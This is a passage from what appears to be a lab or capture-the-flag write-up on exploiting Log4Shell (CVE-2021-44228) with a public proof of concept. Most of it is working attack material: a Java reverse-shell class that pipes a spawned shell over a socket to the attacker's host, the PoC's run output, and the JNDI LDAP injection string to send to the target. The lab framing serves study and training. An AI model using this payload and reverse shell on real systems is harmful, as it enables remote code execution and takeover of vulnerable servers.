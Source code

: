 ```bash
pip3 install -r requirements.txt
```

Now we'll download [Corretto JDK8](https://corretto.aws/downloads/latest/amazon-corretto-8-x64-linux-jdk.tar.gz) and rename it to `jdk1.8.0_20`. When that's done, we have to edit the poc as I said before:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="cmd.exe"; // You have to change this 
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```

Now that's all set, we'll run the python PoC:

```bash
❯ python3 poc.py --userip 10.10.14.124 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.124:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```
